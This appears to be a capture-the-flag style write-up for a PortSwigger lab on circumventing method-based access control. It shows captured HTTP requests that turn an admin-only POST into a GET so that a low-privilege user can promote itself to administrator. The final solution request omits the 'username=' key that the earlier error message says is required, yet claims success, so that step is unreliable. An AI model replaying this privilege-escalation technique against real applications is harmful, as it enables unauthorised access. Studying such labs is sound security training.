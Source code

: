 # [Lab: Method-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented)

This lab implements [access controls](https://portswigger.net/web-security/access-control) based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.

To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed access controls to promote yourself to become an administrator.

## Analysis

upgrade user request at administrator account:

```http
POST /admin-roles HTTP/1.1
Cookie: session=adminsession

username=wiener&action=upgrade
```

repeat the request with `wiener` session, response:

```http
HTTP/1.1 401 Unauthorized
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 14

"Unauthorized"
```

change http method:

```http
GET /admin-roles HTTP/1.1
Cookie: session=wienersession

```

- response:

  ```http
  HTTP/1.1 400 Bad Request
  Content-Type: application/json; charset=utf-8
  Connection: close
  Content-Length: 30

  "Missing parameter 'username'"
  ```

## Solution

add query parameter to the request:

```http
GET /admin-roles?wiener&action=upgrade HTTP/1.1
Cookie: session=wienersession

```

=> solved
